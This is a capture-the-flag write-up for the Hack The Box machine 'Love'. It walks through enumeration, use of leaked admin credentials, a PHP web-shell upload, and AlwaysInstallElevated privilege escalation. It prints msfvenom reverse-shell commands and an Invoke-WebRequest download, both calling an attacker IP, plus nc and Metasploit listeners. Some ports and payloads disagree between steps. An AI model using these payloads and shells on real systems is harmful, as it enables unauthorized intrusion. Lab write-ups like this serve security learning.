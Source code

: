 IP: ## 10.10.10.239

````bash
echo "10.129.128.17 love.htb" >> /etc/hosts 
````

## nmap
|Port|service|
|---|---|
|80|http|
|135|msrpc|
|139|netbios-ssn|
|443|https|
|445|smb|
|3306|mysql|
|5000|upnp|

Lets start with the website. 
we can see it a voting website using php.
like try do some enumlation on the site. 

````bash
gobuster dir -u http://love.htb -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 50
````

We find */admin* which ask for creds we do not have yet.

lets try the other ports
on port 443 we get access forbidden. 

looking at the cert of the https site we see a subdomain 
staging.love.htb and username roy@love.htb.
So we add the the domin to /etc/hosts. 
I try with https but still got forbidden, but on http we get a file scanner. 
Lets see if we can 
I tried scanning itself just for fun as it was forbidden to us.  
http://127.0.0.1:5000

creds: 
Vote Admin Creds 
admin: @LoveIsInTheAir!!!! 

Let try login with the cred on love.htb/admin and we got access. 
I can see under user setting we have a the options to upload a file as our images, lets see if it can be exploited.
At the buttom we see it created by sourcecodester.com and the system is called voting-system-using-php.html time to google for exploit. 

https://www.exploit-db.com/exploits/49445
But sadly the exploit did not work :C 
Guess we have to do it the manual way. 

I tried my go to reverse shell by pentestmonkey, but did not work
I got hinted at using:
[shell](https://github.com/ivan-sincek/php-reverse-shell/blob/master/src/minified/simple_php_web_shell_get__mini_v2.php)

we got access as user, get the flag and lets try get admin

## admin 
Scan the system with WinPEAS and we learn that AlwaysInstalledElevated feature is used to install MSI packages, lets create a shell with msfvenom and get admin. 

````bash
msfvenom -p windows/x64/meterpreter/reverse\_tcp LHOST=10.10.14.200 LPORT=8856 -f msi -o "trustme.msi"
````

Now open msfconsole to catch the rev shell.

````bash
msfconsole -q
use exploit/multi/handler
set payload windows/x64/shell_reverse_tcp
set lhost 10.10.14.200
set lport 8765
````

Upgrade to powershell and download the file 
````powershell
Powershell.exe
Invoke-WebRequest -URI http://10.10.14.200:8000/trustme.msi -OutFile trustme.msi
````
and still just user.

````bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.14.200 LPORT=8856 -f msi -o "trustme.msi"
````

On another machine.

````bash
nc -lvnp 8856
````
and I got root. 
